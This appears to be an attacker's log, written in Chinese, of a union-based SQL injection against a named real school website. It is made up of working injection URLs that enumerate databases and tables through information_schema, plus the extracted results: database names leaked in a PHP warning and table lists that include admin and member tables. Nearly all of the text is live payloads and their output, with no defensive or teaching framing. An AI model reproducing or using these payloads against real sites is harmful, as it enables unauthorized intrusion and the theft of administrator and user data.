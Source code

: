 	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%205,1)%20--

	第六个数据库: qcss

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_schema))%20from%20information_schema.tables)%20--

	上面的6个操作犯傻了，group_concat可以一次性的获取说有的数据库

	Warning: file_get_contents(D:/www/celebrate/templist/default/information_schema,duxcms,jcms,mysql,qcms,qcss) [function.file-get-contents]: failed to open stream: No such file or directory in D:\www\celebrate\inc\temp.php on line 56

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_name))%20from%20information_schema.tables%20where%20table_schema=0x647578636D73)%20--

	duxcms中的所有表, "duxcms"需要用二进制表示

	dc_admin
	dc_admin_group
	dc_admin_log
	dc_admin_menu
	dc_category
	dc_category_jump
	dc_category_page
	dc_content
	dc_content_data
	dc_expand_model
	dc_expand_model_field
	dc_form
	dc_form_data_guestbook
	dc_form_field
	dc_fragment
	dc_lang
	dc_model
	dc_plugin
	dc_position
	dc_position_relation
	dc_replace
	dc_tags
	dc_tags_category
	dc_tags_relation
	dc_upload


	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_name))%20from%20information_schema.tables%20where%20table_schema=0x6A636D73)%20--

	jcms中的所有表

	jx_announcement
	jx_article
	jx_attachment
	jx_category
	jx_comment
	jx_guestbook
	jx_keywords
	jx_link
	jx_member
	jx_model
	jx_onepage
	jx_safefunc
	jx_set